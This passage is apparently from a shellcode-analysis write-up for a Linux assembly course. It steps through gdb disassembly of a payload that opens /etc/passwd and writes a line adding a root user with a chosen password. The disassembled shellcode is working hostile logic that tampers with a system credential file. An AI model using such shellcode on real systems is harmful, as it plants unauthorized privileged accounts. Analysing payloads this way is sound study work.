 ````
   0x0804a049 <+9>:	push   0x5
   0x0804a04b <+11>:	pop    eax
   0x0804a04c <+12>:	xor    ecx,ecx
   0x0804a04e <+14>:	push   ecx
   0x0804a04f <+15>:	push   0x64777373 ;"dwss"+
   0x0804a054 <+20>:	push   0x61702f2f ;"ap//"+
   0x0804a059 <+25>:	push   0x6374652f ;"cte/"
   ;/etc/passw is pushed to ESP
   0x0804a05e <+30>:	mov    ebx,esp
   0x0804a060 <+32>:	inc    ecx
   0x0804a061 <+33>:	mov    ch,0x4
   0x0804a063 <+35>:	int    0x80
````
``Debugging open function for /etc/passwd file``

![](../Images/04_slae_assignment_5.png)

``EBX stores a pointer to the file to open, which is /etc/passwd``

If the syscall succeed, the *EAX* register will store the file descriptor associated to the file opened by this syscall.

![](../Images/05_slae_assignment_5.png)

``File descriptor obtained after successful open syscall``

After that, a call to a memory address is performed (*0x804a091*).

````
   0x0804a065 <+37>:	xchg   ebx,eax
   0x0804a066 <+38>:	call   0x804a091 <code+81>
   0x0804a06b <+43>:	push   ebx
````
``Debugging call to write function on 0x804a091``

On this memory address the program will write a line on */etc/passwd* that will contain the username and password (encrypted) that was provided.

````
   0x0804a091 <code+81>:	pop    ecx
   0x0804a092 <code+82>:	mov    edx,DWORD PTR [ecx-0x4]
   0x0804a095 <code+85>:	push   0x4
   0x0804a097 <code+87>:	pop    eax
   0x0804a098 <code+88>:	int    0x80
   0x0804a09a <code+90>:	push   0x1
   0x0804a09c <code+92>:	pop    eax
   0x0804a09d <code+93>:	int    0x80
````
``Debugging write function to add the root user to /etc/passwd``
